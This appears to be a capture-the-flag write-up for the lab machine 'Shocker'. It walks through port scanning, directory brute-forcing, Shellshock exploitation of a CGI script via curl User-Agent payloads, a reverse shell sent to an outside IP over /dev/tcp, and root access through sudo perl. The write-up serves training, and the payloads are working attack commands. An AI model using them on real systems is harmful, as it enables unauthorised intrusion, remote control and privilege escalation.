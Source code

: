 # Shocker

![image](https://user-images.githubusercontent.com/5285547/124322481-6e1e4200-db77-11eb-9e65-04c366f56e6c.png)

# Nmap 

```
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-1
```

```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- Running dirb tool 
```
dirb http://10.10.10.56/  

http://10.10.10.56/cgi-bin/ (CODE:403|SIZE:294)                                                                  
http://10.10.10.56/index.html (CODE:200|SIZE:137) 
```

Noting the name of the box, I can tell this is going to be a shellshock vunerability with the cgi-bin directory its a given! 

- /cgi-bin/
```
gobuster dir -u http://10.10.10.56/cgi-bin/ -w  /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt    -t 30 -x .txt,.html,.php,.bk,.gz,.png,.sh -s 403,200

/user.sh              (Status: 200) [Size: 118]
```

## ShellShock

- Basic usage (Exploit)

ExploitDB paper: https://www.exploit-db.com/docs/48112

```
curl http://10.10.10.56/cgi-bin/user.sh -A "() { :;}; echo 'Content-Type: text/plain';echo; /bin/ls"
```
```
user.sh
```

- Lets get the user of the box in /home

```
curl http://10.10.10.56/cgi-bin/user.sh -A "() { :;}; echo 'Content-Type: text/plain';echo; /bin/ls /home"
```
```
shelly
```

We can get the user flag now then work on getting on the box properly via a reverse shell 

```
curl -v http://10.10.10.56/cgi-bin/user.sh -A "() { :;}; echo 'Content-Type: text/plain';echo; /bin/cat /home/shelly/user.txt"
```

- Flag
```
beb558c0c6{REDACTED}a1ce663157
```

## Reverse Shell

```
curl -v http://10.10.10.56/cgi-bin/user.sh -A "() { :;}; echo 'Content-Type: text/plain';echo; /bin/sh -i >& /dev/tcp/10.10.14.184/9999 0>&1"
```
```
stty raw -echo;fg
reset
xterm
export TERM=xterm
export SHELL=bash
```

- Looking around the system you quickly find sudo -l has a good esculation route

```
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

## Root

- GTFOBins  

![image](https://user-images.githubusercontent.com/5285547/124326697-c4db4a00-db7e-11eb-9ce2-0f01ae33dc46.png)


```
sudo perl -e 'exec "/bin/sh";'
```

- Now we are root and can get the last flag.txt in /root

![image](https://user-images.githubusercontent.com/5285547/124326767-eccaad80-db7e-11eb-8b39-0bd25d522af8.png)


- Flag
```
f011efb96{REDACTED}a7f7284ceea
```


